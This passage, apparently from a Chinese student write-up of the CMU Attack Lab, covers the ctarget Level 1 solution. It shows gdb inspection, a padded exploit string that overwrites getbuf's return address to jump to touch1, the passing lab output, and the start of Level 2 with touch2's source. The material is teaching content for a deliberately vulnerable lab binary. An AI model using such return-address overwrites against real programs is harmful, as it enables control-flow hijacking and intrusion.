 ```bash
(gdb) x/8bx 0x5561dca0
0x5561dca0:	0x76	0x19	0x40	0x00	0x00	0x00	0x00	0x00

# 查看程序在运行了Gets()后 执行retq将要跳转的地址

```

从上述分析可得，`getbuf()`在运行了`Gets()`后 执行`retq`将要跳转的地址正好是`test()`的地址`0x401876`，注意：小端表示法下对象应该从右往左看

那么，我们猜想如果我们这个时候的栈顶`0x5561dca0`处放上我们要跳转`touch1()`的地址，程序是不是会将这个跳转弹出并跳转呢？

于是，构造字符串如下：

```txt
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* the addr of touch1(): 0x4017c0  */
```

测试一下构造的字符串，

```bash
$ ./ctarget -qi answer/phase_1_raw 
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
```

`PASS`！！！

字符串的大小显然超出了缓冲区的边界，并将`getbuf()`的被调用函数存储的状态信息(返回地址)给覆盖，导致控制权转移给了`touch1()`。

### Level 2

下面，我们就要真正的开始进行代码注入攻击了。我们需要在构造的字符串中设计我们想要执行的代码(底层上其实是机器指令)。

同样，我们不能让`getbuf()`函数返回`test()`，而是重定向到`touch2()`，下面是`touch2()`的`C`语言表示：

```cpp
void touch2(unsigned val){
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n",val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n",val);
        fail(2);
    }
    exit(2);
}
```
